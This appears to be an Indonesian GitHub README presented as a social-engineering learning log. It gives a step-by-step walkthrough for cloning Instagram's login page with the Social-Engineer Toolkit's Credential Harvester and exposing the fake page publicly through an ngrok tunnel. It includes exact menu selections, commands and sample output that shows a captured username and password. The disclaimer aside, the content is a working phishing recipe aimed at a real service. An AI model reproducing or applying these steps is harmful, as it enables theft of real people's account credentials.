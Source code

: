 # ngrokxwebphising by Li3N4X
Ini adalah repository pertama saya di github. Saya bermaksud untuk membuat dokumentasi saat saya belajar *Social Engineering*.
Tunneling web phising menggunakan ngrok. Saya bermaksud untuk berbagi ilmu dan pemahaman dalam maksud dan tujuan untuk belajar dan tidak menyalahgunakanhal yang sudah saya pelajari, karena saya sadar hal ini dapat berbahaya dan dapat disalahgunakan ditangan orang jahat/kriminal. Jika ada, entah siapapun yang melakukan tindakan perusakan/cybercrime yang disebabkan dari pembelajaran tutorial yang saya buat, 
Dengan tegas kami saya tidak bertanggung jawab kepada yang bersangkutan
Saya percaya bahwa tidak mungkin membela diri dari peretas tanpa mengetahui peretasan itu dilakukan.

Tujuan utama dari kegiatan ini adalah untuk mengetahui bagaimana cara kita bisa melakukan sebagai berikut :
- Mengenal Web Phising
- Tunneling
- Ngrok
- Step by step cara

Tools yang saya gunakan : 
- ngrok
- setoolkit

Yang perlu disiapkan terlebih dahulu :
- Akun ngrok
- Install ngrok
- Install setoolkit
- Bahan login page sebuah website

## Tahap Pertama
Kita akan menggunakan dan mencoba bahan yang kita siapkan sudah siap untuk digunakan. 


```
sudo su
setoolkit
```
masuk sebagai super user di linux. Saya menggunakan Kali Linux
lalu buka setoolkit yang sudah disiapkan.
Disini saya tidak akan menjelaskan bagaimana cara instalasi `setoolkit`, karena kali linux sudah menyiapkan itu semua.

```

           ..######..########.########
           .##....##.##..........##...
           .##.......##..........##...
           ..######..######......##...
           .......##.##..........##...
           .##....##.##..........##...
           ..######..########....##...  

[---]        The Social-Engineer Toolkit (SET)         [---]
[---]        Created by: David Kennedy (ReL1K)         [---]
                      Version: 8.0.3
                    Codename: 'Maverick'
[---]        Follow us on Twitter: @TrustedSec         [---]
[---]        Follow me on Twitter: @HackingDave        [---]
[---]       Homepage: https://www.trustedsec.com       [---]
        Welcome to the Social-Engineer Toolkit (SET).
         The one stop shop for all of your SE needs.

   The Social-Engineer Toolkit is a product of TrustedSec.

           Visit: https://www.trustedsec.com

   It's easy to update using the PenTesters Framework! (PTF)
Visit https://github.com/trustedsec/ptf to update all your tools!


 Select from the menu:

   1) Social-Engineering Attacks
   2) Penetration Testing (Fast-Track)
   3) Third Party Modules
   4) Update the Social-Engineer Toolkit
   5) Update SET configuration
   6) Help, Credits, and About

  99) Exit the Social-Engineer Toolkit

```
Ini adalah menu yang dapat kita pilih saat pertama kali membuka setoolkit.
mari kita berfokus pada opsi - opsi berikut
```
 Select from the menu:

   1) Social-Engineering Attacks
   2) Penetration Testing (Fast-Track)
   3) Third Party Modules
   4) Update the Social-Engineer Toolkit
   5) Update SET configuration
   6) Help, Credits, and About

  99) Exit the Social-Engineer Toolkit
```
**Kita pilih opsi nomor 1 Social-Engineering Attacks, lalu akan keluar opsi berikutnya seperti berikut**
```
 Select from the menu:

   1) Spear-Phishing Attack Vectors
   2) Website Attack Vectors
   3) Infectious Media Generator
   4) Create a Payload and Listener
   5) Mass Mailer Attack
   6) Arduino-Based Attack Vector
   7) Wireless Access Point Attack Vector
   8) QRCode Generator Attack Vector
   9) Powershell Attack Vectors
  10) Third Party Modules

  99) Return back to the main menu.
```
Kalau diperhatikan dari pilihan yang diberikan, kita dapat mengakses semua opsi, namun akan berbahaya ketika digunakan tanpa etika dan tanpa tanggung jawab
**kita pilih nomor 2 Website Attack Vectors, lalu akan keluar opsi selanjutnya**

```
The HTA Attack method will allow you to clone a site and perform powershell injection through HTA files which can be used for Windows-based powershell exploitation through the browser.

   1) Java Applet Attack Method
   2) Metasploit Browser Exploit Method
   3) Credential Harvester Attack Method
   4) Tabnabbing Attack Method
   5) Web Jacking Attack Method
   6) Multi-Attack Web Method
   7) HTA Attack Method

  99) Return to Main Menu
```
**Kita pilih nomor 3 Credential Harvester Attack Method, lalu akan keluar seperti ini**
```
   1) Web Templates
   2) Site Cloner
   3) Custom Import

  99) Return to Webattack Menu
```
**Saya akan mempraktekkan nomor 2 Site Cloner**

```
##marked
Ujung Tahap Pertama!
set:webattack> IP address for the POST back in Harvester/Tabnabbing [ip.addr.ess.kamu]:
```
**Disini karena untuk mencoba terlebih dahulu, kita lewati tahap ini dengan menekan `Enter` langsung**
```
set:webattack> Enter the url to clone:ur url here!
```
Masukkan website yang halaman loginnya ingin kita clone sebagai media phising.
Sebagai contoh kita akan menggunakan `https://www.instagram.com/accounts/login/`
lalu `Enter`

```
The best way to use this attack is if username and password form fields are available. Regardless, this captures all POSTs on a website.                                                                                              
[*] The Social-Engineer Toolkit Credential Harvester Attack
[*] Credential Harvester is running on port 80                                                                     
[*] Information will be displayed to you as it arrives below: 
```
**Yup! ini sudah jadi. coba kalian masuk kedalam ip address yang tertera disini `set:webattack> IP address for the POST back in Harvester/Tabnabbing [ip.addr.ess.kamu]:`**

**ya benar, halaman login instagram sudah ada dan persis mirip sekali, coba saja kalian masukkan username dan pass apa saja.. nanti kalian akan menerima trigger dari setoolkit**
```
[*] Information will be displayed to you as it arrives below:                                                      
127.0.0.1 - - [07/Apr/2023 13:14:57] "GET / HTTP/1.1" 200 - #baris ini menandakan kalau alamat IP kalian di 'Klik' dan di akses
127.0.0.1 - - [07/Apr/2023 13:15:06] "GET / HTTP/1.1" 200 -
[*] WE GOT A HIT! Printing the output:
PARAM: ReturnUrl=/                                                                                                 
POSSIBLE USERNAME FIELD FOUND: Username=wicak   #sebagai contoh, saya memasukkan uname dan pass serupa                                                                   
POSSIBLE PASSWORD FIELD FOUND: Password=wicak                                                                      
PARAM: __RequestVerificationToken=CfDJ8B243YWE8BRKugCLYHGbxpuq-BRDJ7001cLwguetYpvI4NFHvm8AYv14MQKQnL-uQWd1oRA_NognBtwsICa_FREBtKwEam3VP1VppEqkMvo3JOUT2U_RPm2YvKXsoYO1njr32n3qp3-DlgHf1fKDorM                                         
PARAM: RememberMe=false                                                                                            
[*] WHEN YOU'RE FINISHED, HIT CONTROL-C TO GENERATE A REPORT. 
```
**Yap! begitu simplenya**

## Tahap Kedua
kita akan mulai menggunakan `ngrok`. Kita akan coba memfungsikan ngrok sebagai media `tunneling` yang akan membuat website palsu kita pada tahap pertama tadi bisa diakses oleh network publik.
Note : 
> pastikan kamu sudah memiliki akun di ngrok, kita akan menggunakan authtoken dari ngrok untuk memulainya
<img src="gambar/ngrok auth.jpeg" alt="Alt text">

Nah, copy-paste kan authtoken yang kalian punya lalu jalankan di terminal dengan menggunakan `./` agar bisa berjalan dengan baik
```
#1
./ngrok config add-authtoken tokenkaliandisinixyz
#2
./ngrok http 80
```
Jalankan masing - masing perintah, maka ngrok akan memulai forwarding ke network publik
<img src="gambar/ngrok ok.jpeg" alt="Alt text">
